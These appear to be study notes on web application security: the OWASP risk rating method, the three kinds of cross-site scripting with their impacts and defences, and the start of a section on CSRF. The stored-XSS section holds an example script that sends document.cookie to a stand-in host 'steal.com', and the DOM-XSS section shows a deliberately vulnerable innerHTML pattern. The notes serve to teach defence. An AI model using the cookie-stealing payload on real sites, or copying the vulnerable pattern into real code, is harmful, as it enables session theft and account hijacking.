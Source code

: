 ### OWASP
- Open Web Application Security Project (OWASP)
- Non-profit foundation that works to improve the security of software
- Community-led open source software projects
- Source for developers and technologies to secure the web

**OWASP Risk Rating Methodology**
- Risk model: Risk = Likelihood * Impact
	- Step 1: Identifying a risk
		- e.g. OWASP, SANS top 25
	- Step 2: Factors for Estimating Likelihood
		- e.g. Skill level, Motive, Opportunity, Size, Ease of discovery, Ease of Exploit, Awareness, Intrusion detection
	- Step 3: Factors for Estimating Impact
		- e.g. Loss of confidentiality, Loss of integrity, Loss of availability, Loss of accountability, Financial damage, Reputation damage, Non-compliance, Privacy violation
	- Step 4: Determining Severity of the Risk
	- Step 5: Deciding what to Fix 
		- After the risks to the application have been classified there will be a prioritized list of what to fix.
		- As a general rule, the most severe risks should be fixed first.
		- Not all risks are worth fixing.
		- Some loss is not only expected, but justifiable based upon the cost of fixing the issue.
	- Step 6: Customizing your Risk Rating Model
		- Risk ranking should be adapted to your own company purpose and mission

| Likelihood and impact levels| |
|-----------|-------|
|0 to < 3| Low|
|3 to < 6| Medium|
|6 to 9| High|

### Cross-Site Scripting (XSS)
- A client-side code injection attack allowing the injection of malicious code into a website.
- XXS flaws occurs whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript.

**Impacts of XSS**
- Allows attackers to execute scripts in the victim's browser.
	- Steal users cookies, allowing for someone to use the website pretending to be that user.
	- Steal users session, steal sensitive data, rewrite web page, redirect user to phishing or malware site etc.
	- Hijack an account.
	- Spread web worms.
	- Access browser history and clipboard contents.
	- Control the browser remotely.
	- Scan and exploit intranet appliances and applications.

**XSS Prevention**
- **Encoding**
	- Escapes the user input so that the browser interprets it only as data, not as code.
	- e.g. Converting characters like `<` and `>` into `&lt;` and `&gt;`.
- **Validation**
	- Filters the user input so that the browser interprets it as code without malicious commands.
- Configure Web.config file
- The act of filtering user input so that all malicious parts of it are removed, without necessarily removing all code in it.
- Input validation
	- Filter out special characters in HTML body.
	- Check input against a white-list.
	- E.g. Using ASP.NET Validation Server Controls.
- ASP.NET Core and Razor.
	- By default, they save us from the attack.
	- if need to render HTML content, use `@Html.Raw(htmlContent)`

**3 types of XSS**
- **Reflected XSS** (non-persistent), where the malicious string originates from the victim's request. (form field, hidden field, URL, etc...). The website then includes this malicious string in the response sent back to the user.
- **DOM-based XSS**, where the vulnerability is in the client-side code rather than the server-side code.
- **Persistent (Stored) XSS**, where the malicious string originates from the website's database.

**Reflected XSS**
- Script is executed on the victim's side
- Script is NOT stored on the server
- When a user clicks on the URL, it is executed in the user's browser. This type of attack is often used to send personal data of a user back to an attacker. This attack is very simple to exploit, which is one reason it is so popular and effective.
- Injected scripts are reflected off the web server.
	- e.g. error message, search results, or any other response
- e.g. Malicious code hidden inside links and embedded in emails or forum messages.
	- When an unsuspecting user clicks on the link, the malicious code may be executed on the client.
```
<a href="http://example.com/comment.pl?mycomment=<script>malicious code</script>">Click here</a>
```

**Attack explained**
1. Attacker crafts a URL containing a malicious string and sends it to the victim.
2. The victim is tricked by the attacker into requesting the URL from the vulnerable website.
3. The vulnerable website includes the malicious string from the URL in the response.
4. The victim's browser executes the malicious scripts inside the response, sending the victim's cookies to the attacker's server.

**Persistent XSS**
- Injected scripts are stored on vulnerable servers.
- e.g. an attacker might post a message as follows in a forum.
```
Hello message board. This is a message. 
<script>
	document.write("<img src=http://steal.com/xssHack/Steal?"+document.cookie+">")
</script>
This is the end of my message.
```
- When a victim navigates to the forum post, the malicious code may be executed unexpectedly.

**Attack explained**
1. The attacker uses one of the website's forms to insert a malicious string into the website's database.
2. The victim requests a page from the website.
3. The website includes the malicious string from the database in the response and sends it to the victim.
4. The victim's browser executes the malicious script inside the response, sending the victim's cookies to the attacker's server.

**DOM-based XSS**
- The attack payload is executed as a result of modifying the DOM "environment" in the victim's browser so that the client side code runs in an "unexpected" manner.
- Request does not travel to the server but stay at the browser the entire time.
- The application contains client-side js that processes data from an untrusted source in an unsafe way, usually by writing the data to a potentially dangerous sink within in the DOM.
- Source
	- A source is a JS property that contains data that an attack could potentially control.
		- e.g. `location.search`
- Sink 
	- A sink is a function or DOM object that allows JS code execution or rendering of HTML.
		- e.g. `eval()`

```
<html>
You searched for : <em><script>...</script></em>
<script>
var keyword = location.search.substring(6);
document.querySelector('em').innerHTML = keyword;
</script>
</html>
```

**Attack explained**
1. The attacker crafts a URL containing a malicious string and sends it to the victim.
2. The victim is tricked by the attacker into requesting the URL from the website.
3. The website receives the request, but does not include the malicious string in the response.
4. The victim's browser executes the legitimate script inside the response, causing the malicious script to be inserted into the page.
5. The victim's browser executes the malicious script inserted into the page, sending the victim's cookies to the attacker's server.


### Cross-Site Request Forgery (CSRF)
- A client-side attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated.
- XSRF, Sea Surf of Session Riding

**How it works?**
- The attacker will typically use social engineering, such as an email or link that will trick a victim into sending a forger request to a server.
- As the user is already authenticated by their application at the time the attack is happening, it's impossible for the application to differentiate a legitimate request from a forged one.

